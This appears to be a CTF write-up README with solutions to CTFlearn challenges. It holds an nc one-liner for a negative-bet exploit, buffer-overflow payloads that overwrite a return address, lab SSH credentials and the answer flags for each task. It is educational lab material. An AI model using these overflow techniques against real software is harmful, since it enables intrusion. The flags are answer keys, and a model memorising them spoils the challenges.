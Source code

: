 # Lazy Game Challenge

Trie negative number for the bet like -100000$. And finally it gave me flag.

Or if not, execute this command, it does everything automatically

```sh
printf "Y\n-1000000\n11\n11\n11\n11\n11\n11\n11\n11\n11\n11\n" | nc thekidofarcrania.com 10001
```

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}
``
</details>

# Simple bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/simplebof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{buffer_0verflows_4re_c00l!}
``
</details>

# Favorite Color

Connect to the server `ssh color@104.131.79.111 -p 1001`
Entry the password `guest`

Now you are connect, if you entry `ls -la`, you see a file color.c

So fire the command to buffer overflow on the binary to gain acces to the flag file 

```sh
(python2 -c 'print "a"*52+"W\x86\x04\x08"';cat) | ./color
```

And if you have buffer overflow, you have just a `cat flag.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{c0lor_0f_0verf1ow}
``
</details>

# RIP my bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/ripbof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
``
</details>

# Blackbox

Fire the command to string overflow on the binary to get the flag

```sh
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{0n3_4lus_1_1s_Tw0_dumm13!!}
``
</details>

# Cryptoversing

Xor `h_bO}EcDOR` with `0x10`  and `+G)uh(jl,vL` with `0x18` on [Cryptii](https://cryptii.com/) from Bitwise operation 

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_cryptoversing.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
xOr_mUsT_B3_1mp0rt4nT
``
</details>

# Shell time!

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/shell.py)

Execute

```sh
python3 shell.py thekidofarcrania.com 4902
```

Write `cat flag2.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ngrat1s_0n_th1s_sh3ll!_SKDJLSejf}
``
</details>

# Jenny

Check [youtube video](https://www.youtube.com/watch?v=no00Ec3YxXc)

<details>
<summary markdown="span">Answer</summary>

flag :``
N0w_1_kn0w_wh0_jen1_1s!11JNI_IS_SO_COOL!
``
</details>

# Libraries

Use [c scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/fakelib.c) and [makefile](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/fake.mk)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTF{JN1_1s_r3a77y_f4n!}
``
</details>

# Poor Login

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/login.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{I_sh0uldve_done_a_ref_counter!!_:PPPPP}
``
</details>